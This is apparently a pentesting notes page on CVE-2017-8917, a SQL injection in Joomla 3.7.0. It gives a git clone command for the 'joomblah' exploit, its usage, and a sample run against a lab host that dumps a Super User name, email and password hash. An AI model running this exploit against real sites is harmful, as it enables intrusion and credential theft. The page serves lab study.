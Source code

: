 ```yaml
---
title : "CVE-2017-8917"
# pre : ' '
description : "SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah."
date : 2021-06-18T19:30:01+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2017-8917 - SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah

### Installation

{{%attachments title="Related files" fa_icon_class="far fa-file-code" pattern=".*(py)"/%}}

```plain
git clone https://github.com/stefanlucas/Exploit-Joomla.git
```

### Usage

```plain
joomblah.py [-h] url
```

### Flags

```plain
Jooma Exploit

positional arguments:
  url         Base URL for Joomla site

optional arguments:
  -h, --help  show this help message and exit
```

### Examples

```plain
$ python joomblah.py http://10.10.181.117/
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

### URL list

* [Github.com - Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla)
